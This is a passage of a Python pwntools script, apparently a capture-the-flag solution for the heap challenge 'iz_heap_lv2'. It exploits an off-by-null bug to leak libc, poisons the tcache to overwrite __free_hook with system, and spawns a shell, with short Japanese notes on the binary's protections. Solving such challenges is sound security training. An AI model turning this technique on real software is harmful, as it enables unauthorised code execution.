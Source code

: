 ```python
    s.send(data)


def show(s, idx):
    select(s, 4)
    s.recvuntil(b"index: ")
    s.sendline(str(idx))
    s.recvuntil(b"Data: ")
    return s.recvline().rstrip()


if __name__ == '__main__':
    """
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    """
    """
        - 今回も1同様サイズとインデックスのチェックは無
        - free時にポインタはクリアされる
        - 今回はまともなshowが出来る
        - off-by-null
    """
    s = process("./iz_heap_lv2")
    libc = ELF("./libc.so.6")
    arena_libc = 0x3ebc40

    for _ in range(7):
        add(s, 0x88)

    for _ in range(7):
        add(s, 0xf8)

    add(s, 0x88)  # 14
    add(s, 0x18)  # 15
    add(s, 0xf8)  # 16
    add(s, 0x18)  # 17
    add(s, 0x18)  # 18
    add(s, 0x18)  # 19

    for i in range(14):
        delete(s, i)

    delete(s, 14)
    edit(s, 15, b"a" * 0x10 + p64(0x90 + 0x20))
    delete(s, 16)

    for _ in range(8):
        add(s, 0x88, b"/bin/sh\x00")  # 0 ~ 7

    libc_addr = u64(show(s, 15).ljust(8, b"\x00")) - arena_libc - 0x60
    print(hex(libc_addr))

    add(s, 0x18)  # 8
    delete(s, 15)
    delete(s, 8)
    add(s, 0x18, p64(libc.symbols["__free_hook"] + libc_addr))
    add(s, 0x18)
    add(s, 0x18, p64(libc.symbols["system"] + libc_addr))

    delete(s, 0)
```